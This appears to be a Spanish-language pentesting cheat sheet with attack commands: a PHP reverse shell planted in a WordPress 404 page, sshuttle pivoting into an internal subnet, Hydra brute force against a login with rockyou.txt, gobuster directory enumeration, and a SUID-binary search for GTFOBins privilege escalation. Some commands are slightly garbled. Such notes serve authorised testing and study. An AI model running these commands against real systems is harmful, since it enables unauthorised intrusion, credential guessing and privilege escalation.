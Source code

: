 
#Otro codigo para reverse_shell 
/usr/share/laudanum/php/php-reverse-shell.php (pentestmonkey-php)
modificando ip y url 
agregandola al principio del 404.php


#Misc a shell
si url muestra error establishing a database connection
Ver en codigo fuente "error page wp-die-message" es un error de wordpress

copiar al clipboard 
cat php-reverse-shell.php | xclip -selection clipboard


PIVOTING
usando sshuttle
atacante ------------>maquina1 misma red atacante --------------------->red interna maquina1 distinta red atacante
192.168.0.10             192.168.0.1                                     
                         10.10.2.1                                            10.10.2.3

atacante$sshuttle -r user@192.168.0.1 10.10.2.0/24
[local sudo] Password: password de maquina1(sudo asiq usuario con privilegios)

## WEB
Hydra contra PHP login-brute-force
hydra -l admin -P usrshare/wordlists/rockyou.txt -s 80 f <ip> http-get /infernoqseriaeldirectoriologin
## Buscar directorios en la url
apt install gobuster simple

> gobuster dir -u http://<ip-path> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o ./file.txt
> gobuster -e -u http://ip/path -w /usr/share/wordlists/directory-list-lowercase-2.3-small.txt -t 40 -x .php,.txt,.html,.cgi -s "200" -o file.txt
> gobuster dir --url --wordlist /usr/share/seclist/Discovery/Web-Content/bit.txt -e muestra ruta full de la URL -x extension -t threads -s status -w wordlistpath

 
## Reporte
https://github.com/Snifer/Pentester-Academy-Markdown-Template


## Priv Escalation Escalada de privilegios
LINUX

binarios+Find+GTFObins
find / -perm -u=s -type f 2>/dev/null |grep -E "/aria2c|/arp|/ash|/base32|/base64|/bash|/busybox|/cat|/chmod|/chown|/chroot|/cp|/csh|/curl|/cut|/dash|/date|/dd|/dialog|/diff|/dmsetup|/docker|/emacs|/env|/eqn|/expand|/expect|/file|/find|/flock|/fmt|/fold|/gdb|/gimp|/grep|/gtester|/hd|/head|/hexdump|/highlight|/iconv|/ionice|/ip|/jjs|/jq|/jrunscript|/ksh|/ksshell|/ld.so|/less|/logsave|/look|/lwp-download|/lwp-request|/make|/more|/mv|/nano|/nice|/nl|/node|/nohup|/od|/openssl|/perl|/pg|/php|/pico|/python|/readelf|/restic|/rlwrap|/rpm|/rpmquery|/rsync|/run-parts|/rvim|/sed|/setarch|/shuf|/soelim|/sort|/start-stop-deamon|/stdbuf|/strace|/strings|/systemctl|/tac|/tail|/taskset|/tclsh|/tee|/tftp|/time|/timeout|/ul|/unexpand|/uniq|/unshare|/uudecode|/uuencode|/vim|/watch|/wget|/xargs|/xxd|/zsh|/zsoelim"
